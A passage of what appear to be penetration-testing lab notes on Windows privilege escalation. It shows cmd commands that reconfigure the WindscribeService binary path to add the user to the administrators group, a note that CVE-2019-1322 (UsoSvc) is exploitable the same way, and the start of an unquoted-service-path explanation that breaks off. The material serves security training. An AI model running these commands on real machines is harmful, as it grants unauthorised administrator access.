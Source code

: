         net localgroup administrators
        # currently our user is not a member

        # change service binary path, to add user to admin group
        sc config WindscribeService binpath="cmd /c net localgroup administrators htb-student /add"

        sc stop WindscribeService

        # start the service now so that the binpath command runs
        sc start WindscribeService
        # this will fail but the command would run

        net localgroup administrators
        # our user is part of this group now

        # this example also applies to Update Orchestrator Service (UsoSvc) for CVE-2019-1322

        # as part of cleanup, we can set binpath back to default
        sc config WindscribeService binpath="c:\Program Files (x86)\Windscribe\WindscribeService.exe"
        ```
    
    * Unquoted service path:

        ```cmd
        # if a binary path is not in quotes
        # Windows will attempt to locate it in different folders

        sc query SystemExplorerHelpService
        # the binary path is unquoted - C:\Program Files (x86)\System Explorer\service\SystemExplorerService64.exe

        # Windows will start looking for the binary - space acts as delimiter
        # first in 'C:\Program', then in 'C:\Program Files', then in 'C:\Program Files (x86)\System' and so on
